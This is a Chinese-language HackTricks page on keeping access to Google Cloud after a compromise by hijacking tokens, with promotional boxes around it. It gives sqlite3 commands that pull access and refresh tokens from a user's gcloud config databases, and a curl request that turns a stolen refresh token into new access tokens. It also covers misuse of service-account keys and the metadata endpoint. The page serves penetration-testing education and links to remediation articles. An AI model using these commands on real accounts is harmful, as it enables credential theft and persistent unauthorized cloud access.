 # GCP - 非服务持久性

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
- **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

这些技术在您某种方式下已经获取了一些GCP凭据或在GCP环境中运行的机器后非常有用。

## 令牌劫持

### 已认证用户

如果您成功访问了**GCP中已认证用户的主文件夹**，**默认情况下**，您将能够**获取该用户的令牌，而无需进行身份验证**，并且可以独立于您使用其令牌的机器，即使用户已配置MFA。

这是因为默认情况下，您**可以使用刷新令牌**生成新的令牌。

要获取用户的**当前令牌**，您可以运行：
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

在这个页面中查看如何**直接使用gcloud使用此令牌**：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

要获取**生成新访问令牌的详细信息**，请运行：

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

使用**刷新令牌**、客户端ID和客户端密钥获取新的刷新后访问令牌：
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

刷新令牌的有效性可以在**管理** > **安全性** > **Google Cloud 会话控制**中进行管理，默认设置为16小时，尽管可以设置为永不过期：

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### 服务账号

就像对待经过身份验证的用户一样，如果您设法**窃取了服务账号的私钥文件**，您将能够**随意访问它**。\
然而，如果您窃取了服务账号的**OAuth令牌**，这可能会更有趣，因为默认情况下这些令牌只有一个小时的有效期，但是如果**受害者删除了私有API密钥，OAuth令牌仍将有效直到过期**。

### 元数据

显然，只要您在运行在GCP环境中的机器内部，您将能够通过联系元数据端点**访问附加到该机器的服务账号**（请注意，您可以在此端点访问的OAuth令牌通常受到范围的限制）。

### 修复措施

有关这些技术的一些修复措施在[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)中有解释。

## 参考资料

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享您的黑客技巧**。

</details>
